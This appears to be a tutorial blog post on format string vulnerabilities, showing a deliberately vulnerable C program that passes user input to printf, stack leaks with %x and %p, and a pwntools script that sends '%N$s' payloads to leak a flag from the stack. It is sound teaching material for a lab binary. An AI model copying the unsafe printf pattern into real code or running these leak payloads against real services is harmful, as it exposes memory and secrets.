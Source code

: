 ```yaml
---
author: pl4int3xt
layout: post
title: F0rmat strings - Reading arbitrary memory locations
date: '2024-01-17'
description: "Learn how to leak values from the stack using format strings vulnerability"
categories: [Binary Exploitation 101]
tags: [binary exploitation]
---
```


## Introduction
A format strings vulnerability occurs when a program uses user-supplied input as the format string parameter in a formatted output function without proper validation or sanitation. The most common functions where format string vulnerabilities can occur are `printf`, `sprintf`, `fprintf`, and `scanf` from the C Standard Library. An attacker can read/write arbitrary memory locations,they can input `%x %x %x %x` to leak values from the stack, or use `%n` to perform arbitrary writes. 

Let's try leaking the flag.txt from the code below
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("We will evaluate any format string you give us with printf().");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("flag.txt is missing!\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

Let's compile the code to an executable binary and remove some protections. The code is dynamically linked and its not stripped.

```shell
gcc format.c -o format -fno-stack-protector -no-pie
```

Running checksec we see everything is disabled except NX 

```shell
pl4int3xt@archlinux ~/D/p/shellcode> checksec --file=format
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified    Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   33 Symbols        No    0   2format
```

The code is vulnerable to format strings and hence we can leak memory addresses from the stack 

```shell
pl4int3xt@archlinux ~/D/p/shellcode> ./format
We will evaluate any format string you give us with printf().
> name
name
> %x %x %x %x %x
78252078 fbad2288 78252078 40649f 0
> %p %p %p %p %p
0x2070252070252070 0xfbad2288 0xa70252070252070 0x40649f (nil)
> 
```

Let's write a custom script to try and leak value from the stack

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./format', checksec=False)

# Let's fuzz 100 values
for i in range(50):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        # Receive the response
        result = p.recvuntil(b'> ')
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```

The code will loop 50 times. Running the code we are able to leak the flag from the stack

```shell
pl4int3xt@archlinux ~/D/p/shellcode> python3 fuzz.py
0: b'%0$s\n> '
4: b'\n> '
6: b'K\xe8\xff\xff\xff\x7f\n> '
17: b'(null)\n> '
18: b'(null)\n> '
19: b'(null)\n> '
20: b'(null)\n> '
21: b'(null)\n> '
22: b'(null)\n> '
23: b'(null)\n> '
24: b'(null)\n> '
25: b'\x88$\xad\xfb\n> '
27: b'flag{f0rm4t_string5_4r3_d4ng3r0u5}\n\n> '
29: b'\x89\xc7\xe8\x19\x91\x01\n> '
30: b'\x08\xe5\xff\xff\xff\x7f\n> '
31: b'UH\x89\xe5H\x81\xec\xb0\n> '
33: b'K\xe8\xff\xff\xff\x7f\n> '
34: b'K\xe8\xff\xff\xff\x7f\n> '
36: b'(null)\n> '
37: b'z\xe8\xff\xff\xff\x7f\n> '
38: b'\xd0\xe2\xff\xf7\xff\x7f\n> '
39: b'`\x11@\n> '
42: b'(null)\n> '
43: b'(null)\n> '
44: b'(null)\n> '
45: b'K\xe8\xff\xff\xff\x7f\n> '
48: b'(null)\n> '
49: b'L\x8b5\xef\x01\x1b\n> '
```
